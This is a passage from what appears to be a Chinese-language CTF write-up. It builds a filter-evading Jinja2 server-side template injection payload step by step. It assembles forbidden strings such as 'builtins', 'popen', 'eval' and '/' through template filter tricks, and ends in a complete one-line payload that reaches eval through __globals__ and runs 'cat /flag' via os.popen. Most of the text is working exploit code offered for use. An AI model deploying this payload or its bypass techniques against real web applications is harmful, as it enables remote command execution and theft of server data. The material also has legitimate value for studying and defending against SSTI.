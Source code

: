 ```python
{% set right = ((app.__doc__|string|list).pop(200)|string) %}    # 右括号 )

{% set c = dict(c=aa)|reverse|first %}    # 字符 c
{% set bfh = self|string|urlencode|first %}    # 百分号 %
{% set bfhc=bfh~c %}    # 这里构造了%c, 之后可以利用这个%c构造任意字符。~用于字符连接
{% set slas = bfhc%((four~seven)|int) %}    # 使用%c构造斜杠 /
{% set but = dict(buil=aa,tins=dd)|join %}    # builtins
{% set imp = dict(imp=aa,ort=dd)|join %}    # import
{% set pon = dict(po=aa,pen=dd)|join %}    # popen
{% set os = dict(o=aa,s=dd)|join %}    # os
{% set ca = dict(ca=aa,t=dd)|join %}    # cat
{% set flg = dict(fl=aa,ag=dd)|join %}    # flag
{% set ev = dict(ev=aa,al=dd)|join %}    # eval
{% set red = dict(re=aa,ad=dd)|join %}    # read
{% set bul = xhx*2~but~xhx*2 %}    # __builtins__
```

将上面构造的字符或字符串拼接起来构造出`__import__('os').popen('cat /flag').read()`：

```python
{% set pld = xhx*2~imp~xhx*2~left~yin~os~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364583622-7fe23d29-24b8-4f0b-82ca-0a3234b3c9cf.png#averageHue=%23bebdbd&id=qNhDE&originHeight=1129&originWidth=2435&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

如上图所示，成功构造出了 **import**('os').popen('cat /flag').read() 。
然后将上面构造的各种变量添加到SSTI万能payload里面就行了：

```python
{% for f,v in whoami.__init__.__globals__.items() %}    # globals
    {% if f == bul %} 
        {% for a,b in v.items() %}    # builtins
            {% if a == ev %}    # eval
                {{b(pld)}}    # eval("__import__('os').popen('cat /flag').read()")
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}
```

所以最终的payload为：

```python
{% set zero = (({ }|select|string|list).pop(38)|int) %}{% set one = (zero**zero)|int %}{% set two = (zero-one-one)|abs|int %}{% set four = (two*two)|int %}{% set five = (two*two*two)-one-one-one %}{% set seven = (zero-one-one-five)|abs %}{% set xhx = (({ }|select|string|list).pop(24)|string) %}{% set space = (({ }|select|string|list).pop(10)|string) %}{% set point = ((app.__doc__|string|list).pop(26)|string) %}{% set yin = ((app.__doc__|string|list).pop(195)|string) %}{% set left = ((app.__doc__|string|list).pop(189)|string) %}{% set right = ((app.__doc__|string|list).pop(200)|string) %}{% set c = dict(c=aa)|reverse|first %}{% set bfh=self|string|urlencode|first %}{% set bfhc=bfh~c %}{% set slas = bfhc%((four~seven)|int) %}{% set but = dict(buil=aa,tins=dd)|join %}{% set imp = dict(imp=aa,ort=dd)|join %}{% set pon = dict(po=aa,pen=dd)|join %}{% set os = dict(o=aa,s=dd)|join %}{% set ca = dict(ca=aa,t=dd)|join %}{% set flg = dict(fl=aa,ag=dd)|join %}{% set ev = dict(ev=aa,al=dd)|join %}{% set red = dict(re=aa,ad=dd)|join %}{% set bul = xhx*2~but~xhx*2 %}{% set pld = xhx*2~imp~xhx*2~left~yin~os~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}{% for f,v in whoami.__init__.__globals__.items() %}{% if f == bul %}{% for a,b in v.items() %}{% if a == ev %}{{b(pld)}}{% endif %}{% endfor %}{% endif %}{% endfor %}
```
